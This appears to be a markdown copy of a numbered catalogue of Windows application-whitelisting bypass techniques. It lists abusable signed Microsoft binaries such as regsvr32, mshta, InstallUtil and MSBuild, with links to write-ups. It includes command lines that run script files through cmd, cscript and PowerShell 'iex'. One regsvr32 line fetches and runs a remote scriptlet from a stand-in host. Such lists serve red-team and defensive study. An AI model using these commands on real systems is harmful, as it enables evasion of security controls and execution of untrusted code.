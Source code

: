 ```
```

## Application Whitelisting Bypass Techniques

[SubTee Collection of Whitelist Bypass Techniques ](https://github.com/subTee/ApplicationWhitelistBypassTechniques/blob/master/TheList.txt)
https://bitbucket.org/jsthyer/wevade.git

Version .0.0.3
```
1. IEExec -This technique may work in certain environments.  Its relies on the fact that many organizations trust executables signed
by Microsoft.  We can misuse this trust by launching a specially crafted .NET application. 
Example Here: https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/

2.  Rundll32.exe

3.  ClickOnce Applications dfsvc.exe dfshim.dll

4.  XBAP - XML Browser Applications WPF PresentationHost.exe

5.  MD5 Hash Collision 
http://www.mathstat.dal.ca/~selinger/md5collision/

6.  PowerShell - Specifically Reflective Execution
http://clymb3r.wordpress.com/2013/04/06/reflective-dll-injection-with-powershell/
https://www.defcon.org/images/defcon-21/dc-21-presentations/Bialek/DEFCON-21-Bialek-PowerPwning-Post-Exploiting-by-Overpowering-Powershell.pdf

7. .HTA Application Invoke PowerShell Scripts
    Launched by mshta.exe, bypasses IE security settings as well.

8.  bat, vbs, ps1
    1. cmd.exe /k < script.txt
    2. cscript.exe //E:vbscript script.txt
    3. Get-Content script.txt | iex
    
9. Malicious Troubleshooting packs - MSDT.exe
    Reference: http://cybersyndicates.com/2015/10/a-no-bull-guide-to-malicious-windows-trouble-shooting-packs-and-application-whitelist-bypass/
    Thanks to @nberthaume, @Killswitch_GUI 
    
10. InstallUtil.exe
    A signed MS binary that loads assemblies and executes - One of the best.
    Examples here: https://gist.github.com/subTee

11. Regsvcs/Regasm
    See: https://gist.github.com/subTee/fb09ef511e592e6f7993
    These 2 are Excellent.

12. regsvr32.exe 
    https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302
    This one is just simply amazing... 
    regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll

13. Msbuild.exe
    http://subt0x10.blogspot.com/2016/09/bypassing-application-whitelisting.html
```

